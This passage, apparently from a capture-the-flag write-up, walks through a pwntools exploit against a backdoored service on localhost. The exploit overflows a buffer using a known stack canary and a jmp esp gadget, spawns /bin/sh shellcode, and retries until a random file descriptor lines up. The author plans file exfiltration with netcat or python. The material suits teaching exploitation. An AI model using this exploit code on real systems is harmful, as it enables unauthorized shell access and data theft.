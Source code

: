 ```
The alarm is set to 16 seconds, which isn't really enough time for interactivity. For this reason, we shouldn't rely on interactivity on the box, and instead simply execute individual commands.

Phew.. now that we have the theory down, let's construct this bad boy and grab those files!

We first need to determine how we can exfiltrate files. Two common methods are using `netcat` and `python`. We can check if either is on the box by performing `which nc` and `which python`. Let's modify our script for this task.

```python
from pwn import *

# Pack 32 bit integer using binjitsu
canary = p32(0xe4ffffe4)
jmpesp = p32(0x0804936b)

command = 'whoami;ls;pwd;which nc;which python;iptables -L'

r = remote('localhost', 4242)

while True:
    r.close()
    r = remote('localhost', 4242)
    # Activate the backdoor
    r.sendline('X')

    # Send our cyclic payload - 200 bytes we see from source
    payload = ''
    payload += 'A' * cyclic_find('bbaa')
    payload += canary
    payload += 'B' * cyclic_find('baaa')
    payload += jmpesp
    payload += asm(shellcraft.dupsh(88)) # Basic /bin/sh shellcode
    payload += (200 - len(payload))

    # Send the payload
    r.sendline(payload)

    # Send our wanted commands 
    r.sendline(command)

    out = r.recv()

    # out == '\x00' in the case that the exploit failed, so we avoid that case
    if out != '\x00':
        print out
```

Because we are attempting to get around the random file descriptor, we simply repeat trying to exploit the machine until luck is in our favor.

<script type="text/javascript" src="https://asciinema.org/a/afpozfc3fdkr6il2xk51yy163.js" id="asciicast-afpozfc3fdkr6il2xk51yy163" async></script>
